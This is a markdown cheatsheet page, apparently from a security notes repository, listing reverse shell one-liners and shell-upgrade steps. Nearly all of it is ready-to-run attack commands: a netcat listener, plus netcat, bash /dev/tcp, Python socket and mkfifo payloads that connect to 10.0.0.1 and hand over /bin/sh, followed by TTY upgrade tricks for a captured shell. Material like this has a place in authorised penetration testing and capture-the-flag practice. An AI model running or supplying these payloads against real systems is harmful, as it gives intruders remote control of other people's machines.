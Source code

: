 ```yaml
---
title: Reverse shell
description: Reverse and interactive shell cheatsheet.
---
```


# Reverse shell

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Well-known reverse shells

```bash
# Listener
nc -lnvp 1234

# netcat
nc -e /bin/bash 10.0.0.1 1234

# bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1

# python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

# netcat (openbsd)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


## Interative shell (upgrade your shell)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

CTRL+Z
stty raw -echo; fg
```

```bash
# Particularly useful with Windows shells
rlwrap nc -lvnp <port>
```

```bash
# On our computer
$ stty -a
speed 38400 baud; rows 17; columns 240; line = 0;
[...]

# On the reverse shell
stty rows 17
stty cols 240
```
